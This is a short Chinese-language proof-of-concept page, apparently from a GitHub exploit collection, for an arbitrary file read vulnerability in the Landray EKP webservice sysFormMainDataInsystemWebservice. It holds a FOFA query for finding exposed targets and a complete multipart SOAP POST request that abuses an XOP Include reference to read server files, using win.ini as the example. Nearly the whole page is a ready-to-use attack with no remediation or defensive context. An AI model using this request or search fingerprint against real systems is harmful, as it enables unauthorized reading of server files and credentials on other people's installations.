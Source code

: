 # 蓝凌EKP系统接口sysFormMainDataInsystemWebservice存在任意文件读取漏洞

蓝凌EKP系统接口sysFormMainDataInsystemWebservice存在任意文件读取漏洞

## fofa

```javascript
body="Com_Parameter"
```

## poc

```javascript
POST /sys/webservice/sysFormMainDataInsystemWebservice HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36
Connection: close
Content-Type: multipart/related; boundary=----4upt9dwdca8rtwq9osuz
SOAPAction: ""
Accept-Encoding: gzip, deflate

------4upt9dwdca8rtwq9osuz
Content-Disposition: form-data; name="a"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.maindata.xform.sys.kmss.landray.com/">
<soapenv:Header/>
<soapenv:Body>
    <web:getData>
        <arg0>
            <beginTimeStamp>a</beginTimeStamp>
            <count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///C:/Windows/win.ini"/></count>
        </arg0>
    </web:getData>
</soapenv:Body>
</soapenv:Envelope>
------4upt9dwdca8rtwq9osuz--
```

![image-20241218110643116](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412181106199.png)

